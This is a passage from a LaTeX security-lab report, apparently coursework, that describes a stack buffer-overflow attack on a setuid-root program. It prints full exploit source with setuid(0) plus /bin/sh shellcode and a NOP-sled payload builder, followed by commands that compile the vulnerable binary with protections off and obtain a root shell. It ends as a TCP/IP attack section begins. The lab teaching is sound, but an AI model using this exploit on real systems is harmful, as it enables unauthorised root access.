    
\includegraphics[width=1\textwidth]{bf-dash-uncommented.png}
\end{figure}



\newpage

\begin{center}
    \textbf{Running the modified exploit.c}
\end{center}

\noindent
Moving on, we rerun exploit.c with the modified shellcode and are able to acquire
the root shell and the real user ID 0 as a result. From this, we understand that
launching the attack on stack.c when /bin/sh is linked to /bin/dash along with
\bsq{setuid(0);} can allow us to access to the root shell and obtain both
the real root user ID and the effective root user ID.

\begin{lstlisting}
/* exploitModified.c  */
/* A program that creates a file containing code for launching shell */
#include <stdio.h>
#include <string.h>
char shellcode[] =
    "\x31\xc0"   /* xorl    %eax, %eax  */
    "\x31\xdb"   /* xorl    %ebx, %ebx  */
    "\xb0\xd5"   /* movb    $0xd5, %al  */
    "\xcd\x80"   /* int     $0x80       */
    "\x31\xc0"   /* xorl    %eax, %eax  */
    "\x50"       /* pushl   %eax        */
    "\x68""//sh" /* pushl   $0x68732f2f */
    "\x68""/bin" /* pushl   $0x6e69622f */
    "\x89\xe3"   /* movl    %esp, %ebx  */
    "\x50"       /* pushl   %eax        */
    "\x53"       /* pushl   %ebx        */
    "\x89\xe1"   /* movl    %esp, %ecx  */
    "\x99"       /* cdql                */
    "\xb0\x0b"   /* movb    $0x0b, %al  */
    "\xcd\x80"   /* int     $0x80       */
    ;

/* Return the address of the top of the stack */
unsigned long getStackPointer(void)
{
    __asm__("movl %esp,%eax");
}

int main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialise buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    char *bufferPointer;
    long *addressPointer;
    long returnAddress;
    int offset = 500;

    int position = sizeof(buffer) - (sizeof(shellcode) + 1);

    bufferPointer = buffer;
    addressPointer = (long *)(bufferPointer);
    returnAddress = (long) getStackPointer() + offset;

    /* Fill out the first 20 positions of the buffer with the return address */
    for (int i = 0; i < 20; i++)
        *(addressPointer++) = returnAddress;

    /* Insert shellcode towards the end of the buffer */
    for (int i = 0; i < sizeof(shellcode); i++)
        buffer[position + i] = shellcode[i];

    /* Terminate our shellcode at the end of the buffer with null */
    buffer[sizeof(buffer) - 1] = '\0';

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
rm stack
y
gcc -DBUF_SIZE=N -o stack -z execstack -fno-stack-protector stack.c
sudo chown root stack
sudo chmod 4755 stack
gcc -o exploitModified exploitModified.c
./exploitModified
./stack
id
exit
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{bf-exploit-modified.png}
\end{figure}



\newpage

\subsection{TCP/IP Attack}

\vspace{0.5in}

\begin{center}
    \textbf{Set-up}
\end{center}

\begin{center}
    Attacker (IP: 10.0.2.4)
\end{center}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-attacker-config.png}
\end{figure}



\newpage

\begin{center}
    Victim (IP: 10.0.2.5)
\end{center}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{tcp-victim-config.png}
\end{figure}



\newpage

\begin{center}
    Observer (IP: 10.0.2.6)
\end{center}


\begin{figure}[H]
    \centering
